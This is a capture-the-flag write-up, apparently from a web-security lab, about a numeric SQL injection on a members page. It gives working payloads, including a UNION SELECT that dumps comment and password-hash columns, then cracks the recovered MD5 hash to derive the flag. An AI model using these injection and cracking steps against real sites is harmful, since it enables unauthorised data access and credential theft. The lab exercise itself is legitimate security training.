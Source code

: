 # SQL Numeric Injection - Members

## Flag

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Description

Now, I attack the member page.

First payload :
`" OR 1=1 --`
We get this error message :
`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\" OR 1=1 --' at line 1`
Which gives me new informations :
- The used SQL distrubution is MySQL (server version)
- The request is prefixed by \
While entering a random alpha string (test here), we get : `unknown column 'test' in 'where clause'`

At this point I decide to test the payloads I used on the other SQL injection exploit : `1 OR 1=1 --`
Which gives me 4 results, the last one being the most interesting one :
```
ID: 1 OR 1=1 -- 
First name: Flag
Surname : GetThe
```

In the other SQL injection exploit, we found this table :
```
users (Members_Sql_Injection) :
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

Using this information, it's easily possible to read any field of this table.

## URL

The URL where you found the issue. This will help people reproduce the issue and offer some clues of where to start.

## Steps To Reproduce

Using this payload built using traditional portuguese methods :
`1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users--`

We get, for the last result :
```
ID: 1 OR 1=1 UNION ALL SELECT Commentaire, countersign FROM users-- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Using crackstation, we crack the md5 (in the surname field) to get : FortyTwo, lowercase it : fortytwo, then hash it with sha256 to get our flag.

## Why is it dangerous ?

See 10-Gallery-SQLNumericInjection

## Possible fixes

See 10-Gallery-SQLNumericInjection

## Resources

There is no additional resource for this issue.
